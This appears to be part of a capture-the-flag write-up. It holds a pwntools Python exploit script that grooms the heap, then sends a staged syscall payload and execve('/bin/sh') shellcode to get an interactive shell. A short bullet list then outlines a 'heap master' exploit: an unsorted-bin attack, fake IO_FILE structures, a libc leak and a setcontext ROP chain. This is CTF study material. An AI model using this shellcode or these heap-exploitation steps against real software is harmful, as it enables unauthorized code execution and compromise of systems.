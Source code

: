 ```python
  r.recvuntil("e:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline(str(index))
  r.recvuntil(":")
  r.sendline(str(size))
  r.recvuntil(":")
  for i in num:
    r.sendline(str(i))


def remove(index):
  r.recvuntil("e:")
  r.sendline("2")
  r.recvuntil(":")
  r.sendline(str(index))
  pass

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  payload = asm("xchg rsi,rax;push rcx;pop rdi;xor edx,ebx;syscall")
  add(3,6,[0x44444444]*4 + [u32(payload[0:4])] + [u32(payload[4:])])
  add(0,10,[0x44444444]*10)
  add(1,10,[0x44444444]*10)
  add(2,10,[0x44444444]*10)
  remove(0)
  remove(1)
  remove(2)
  r.recvuntil(":")
  r.sendline("4")
  r.recvuntil(":")
  r.sendline("2")
  r.sendline("\x90"*0x100 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
  r.interactive()


```
### heap master

* Fake IO_2_1_stdout structure at mmap+0x100 with 1/16 probability.
* Unsortbin attack to overwrite global_max_fast.
* Modify stdout to mmap+0x100 with free chunk size 0x17e0 to leak libc.
* Fake IO_FILE structure at mmap+0x2000 (libc-2.24 IO_FILE attack to jump __IO_str_overflow control rip & rdi).
* Modify _IO_list_all to mmap+0x2000 with free chunk size 0x1410.
* There is `mov rcx,[rdi + 0x98];push rcx ;.....; ret;` in the middle of setcontext, so I found the __morecore function ptr to avoid program crash.
* Conduct exit to trigger IO_FILE attack. Finally I used setcontext to successfully execute open, read, write with ROP.
